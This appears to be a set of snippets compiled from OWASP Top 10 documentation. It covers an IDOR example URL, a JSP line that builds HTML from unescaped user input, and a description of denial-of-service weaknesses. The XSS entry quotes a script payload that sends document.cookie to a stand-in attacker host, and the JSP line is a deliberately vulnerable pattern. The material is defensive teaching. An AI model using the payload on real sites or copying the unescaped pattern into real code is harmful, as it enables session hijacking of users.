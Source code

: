 LANGUAGE: HTTP
CODE:
```
http://example.com/app/accountInfo?acct=notmyacct
```

----------------------------------------

TITLE: URL Parameter Modification for Account Access (IDOR)
DESCRIPTION: This URL example illustrates how an attacker can modify a browser's 'acct' parameter (https://example.com/app/accountInfo?acct=notmyacct) to attempt to access another user's account. This highlights an Insecure Direct Object Reference (IDOR) vulnerability if the application does not properly verify the user's authorization for the requested account.
SOURCE: https://github.com/owasp/top10/blob/master/osib/docs/A01_2021-Broken_Access_Control.md#_snippet_1

LANGUAGE: HTTP Request
CODE:
```
 https://example.com/app/accountInfo?acct=notmyacct
```

----------------------------------------

TITLE: Vulnerable HTML Generation with Unescaped User Input
DESCRIPTION: This code snippet demonstrates a common vulnerability where an application directly embeds unvalidated and unescaped user input (from request.getParameter("CC")) into an HTML attribute. This allows for reflected XSS attacks if an attacker provides malicious input like '"/><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'', leading to session hijacking.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-en.html#_snippet_8

LANGUAGE: Java/JSP
CODE:
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

----------------------------------------

TITLE: Denial of Service (DoS) Vulnerabilities
DESCRIPTION: Explains how design and coding practices significantly influence the magnitude of denial of service attacks, even though DoS is always possible given sufficient resources. Examples include large files accessible without controls or computationally expensive transactions on every page, which reduce the effort required for a DoS attack.
SOURCE: https://github.com/owasp/top10/blob/master/osib/docs/A11_2021-Next_Steps.md#_snippet_1

LANGUAGE: APIDOC
CODE:
```
Denial of Service:
  Description:
    Always possible given sufficient resources, but design and coding practices significantly bearing on magnitude.
    Examples: Large file accessible by anyone with link, or computationally expensive transaction on every page.
  Prevention:
    Performance test code for CPU, I/O, and memory usage.
    Re-architect, optimize, or cache expensive operations.
    Consider access controls for larger objects to ensure only authorized individuals can access huge files or objects or serve them by an edge caching network.
  Example Attack Scenarios:
    An attacker determines an operation takes 5-10 seconds. Running four concurrent threads stops server response. Attacker uses 1000 threads to take entire system offline.
  Metrics:
    CWEs Mapped: 8
    Max Incidence Rate: 17.54%
```